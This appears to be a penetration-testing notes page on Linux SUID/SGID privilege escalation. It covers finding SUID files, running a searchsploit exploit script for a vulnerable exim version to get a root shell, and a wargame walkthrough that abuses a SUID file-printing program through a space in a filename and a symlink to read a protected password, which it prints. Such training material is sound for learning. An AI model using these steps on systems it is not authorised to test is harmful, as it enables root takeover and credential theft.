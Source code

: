 # SUID / SGID abuse

#### SUID files get executed with the privileges of the file owner.&#x20;

#### SGID files get executed with the privileges of the file group.&#x20;

If the file is owned by root, it gets executed with root privileges, and we may be able to use it to escalate privileges.

## Finding SUID / SGID Files

We can use the following find command to locate files with the SUID or SGID bits set:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

## Shell Escape Sequences

Just as we were able to use shell escape sequences with programs running via sudo, we can do the same with SUID / SGID files. A list of programs with their shell escape sequences can be found here: [https://gtfobins.github.io/](https://gtfobins.github.io) Refer to the previous section on shell escape sequences for how to use them.

### A Quick Word on LD\_PRELOAD & LD\_LIBRARY\_PATH

why we can’t just use the same LD\_PRELOAD and LD\_LIBRARY\_PATH environment variable tricks we used with sudo privilege escalation?

#### By default, this is disabled in Linux, due to the obvious security risk it presents!

Both these environment variables get ignored when SUID files are executed

Certain programs install SUID files to aid their operation. Just as services which run as root can have vulnerabilities we can exploit for a root shell, so too can these SUID files. Exploits can be found using Searchsploit, Google, and GitHub, in the same way we find exploits for Kernels and Services.

for example we found an SUID file for exim service:

#### `-rwsr-xr-x 1 root root 963691 May 13 2017 /usr/sbin/exim-4.84-3`

Exim is a popular mail transfer agent that is somewhat notorious for having many security vulnerabilities.

The version of exim is rather obvious from the filename, however we can confirm it:

#### `$ /usr/sbin/exim-4.84-3 --version`

Using searchsploit on our local machine, we find a local privilege escalation for this exact version:

![](../../../.gitbook/assets/suid1.png)

Copy the exploit script across to the target machine. You may need to remove ^M characters from the script:

{% hint style="info" %}
DON NOT COPY PASTE THIS, ENTER ^M WITH THE KEY COMBINATIONS.

Note that to get ^M you have to hold Ctrl and then press V and M in succession.
{% endhint %}

`sed -e "s/^M//" 39535.sh > privesc.sh`

Make sure the script is executable:

`chmod +x privesc.sh`

Execute the script to gain a root shell:

`./privesc.sh`

## Abusing cat to read files with SUID executables

we have a suid program that prints out a given file contents named printfile we have a password file that cant be read by this program which contains root password .it seems the program printfile outputs the text from a file; just like cat. Therefore, we can assume that it’s using cat somewhere in the code.

![](<../../../.gitbook/assets/1 (14).png>)

make a temp directory, and a new text file that we can use for testing the program with ltrace.

#### `mkdir /tmp/jhalon && touch /tmp/jhalon/test.txt` ` cd /tmp/jhalon` ` ltrace ~/printfile test.txt` `` ` __libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600` ` access("test.txt", 4) = 0` ` snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17` ` system("/bin/cat test.txt"` ` --- SIGCHLD (Child exited) ---` ` <... system resumed> ) = 0` ` +++ exited (status 0) +++`

From the output, we can see that there is a small security hole in the way this program functions. If you look closely, you can see that the function access() and /bin/cat are being called on the input file. What access() does is check permissions based on the process’ real user ID rather than the effective user ID

And if we look back into the previous ls -la output, we can see that printfile is owned by leviathan3. So access() will call the process with leviathan3’s privileges

Looking into the code we also see that /bin/cat is being called on the file to output the contents. While access() uses the full path’s filename, /bin/cat uses just the first part of the filename. (This is due to how the “ “ are set up in the program) What we can do here is try to add a space to a filename, and if we are correct, /bin/cat will read the file as 2 separate files.

#### `touch pass\ file.txt` ` ltrace ~/printfile "pass file.txt"` `` ` __libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600` ` access("pass file.txt", 4) = 0` ` snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22` ` system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory` ` /bin/cat: file.txt: No such file or directory` `` ` --- SIGCHLD (Child exited) ---` ` <... system resumed> ) = 256` ` +++ exited (status 0) +++`

As you can see, /bin/cat calls “pass file.txt” as two separate files, “pass” and “file.txt”. We can actually exploit this! Let’s go ahead and create a symbolic link for the “pass” part in “pass file.txt”, and link it to /etc/leviathan\_pass/leviathan3.

#### `ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass` `` ` leviathan2@melinda:/tmp/jhalon$ ls -la` `` ` total 7864` ` drwxrwxr-x 2 leviathan2 leviathan2 4096 Sep 10 04:55 .` ` drwxrwx-wt 1 root root 8036352 Sep 10 04:55 ..` ` lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3` ` -rw-rw-r-- 1 leviathan2 leviathan2 0 Sep 10 04:54 pass file.txt` `` ` leviathan2@melinda:/tmp/jhalon$ ~/printfile "pass file.txt"` ` Ahdiemoo1j` ` /bin/cat: file.txt: No such file or directory`

as you can see we where able to read password file.

















